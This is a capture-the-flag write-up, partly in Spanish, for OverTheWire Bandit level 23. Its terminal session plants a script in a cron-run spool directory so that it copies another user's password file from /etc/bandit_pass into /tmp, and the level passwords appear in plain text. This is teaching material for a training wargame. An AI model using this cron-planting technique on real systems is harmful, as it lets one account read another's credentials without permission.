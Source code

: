 ## Objetivo 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```bash
bandit23@bandit:~$  ls -la /etc/cron.d/
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls -la
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/passtmp
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/passtmp
bandit23@bandit:/tmp/passtmp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/passtmp/password" > mio.sh
bandit23@bandit:/tmp/passtmp$ chmod 777 mio.sh
bandit23@bandit:/tmp/passtmp$ cat mio.sh
cat /etc/bandit_pass/bandit24 >> /tmp/passtmp/password
bandit23@bandit:/tmp/passtmp$ ls -la mio.sh
-rwxrwxrwx 1 bandit23 bandit23 55 Feb 24 23:59 mio.sh
bandit23@bandit:/tmp/passtmp$ touch password
bandit23@bandit:/tmp/passtmp$ chmod 666 password
bandit23@bandit:/tmp/passtmp$ cp mio.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/passtmp$ ls -la
total 408
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 25 00:00 .
drwxrwx-wt 416 root     root     405504 Feb 25 00:02 ..
-rwxrwxrwx   1 bandit23 bandit23     55 Feb 24 23:59 mio.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Feb 25 00:00 password
bandit23@bandit:/tmp/passtmp$ ls -la
total 408
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 25 00:00 .
drwxrwx-wt 417 root     root     405504 Feb 25 00:02 ..
-rwxrwxrwx   1 bandit23 bandit23     55 Feb 24 23:59 mio.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Feb 25 00:00 password
bandit23@bandit:/tmp/passtmp$ ls -la
total 412
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 25 00:00 .
drwxrwx-wt 417 root     root     405504 Feb 25 00:03 ..
-rwxrwxrwx   1 bandit23 bandit23     55 Feb 24 23:59 mio.sh
-rw-rw-rw-   1 bandit23 bandit23     33 Feb 25 00:03 password
bandit23@bandit:/tmp/passtmp$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/passtmp$
```


## Notas
chmod 777 da permisos totales a un archivo
chmod 666 da permisos de escritura y lectura a todos en un archivo

## Referencias
https://www.linuxtotal.com.mx/?cont=info_admon_006

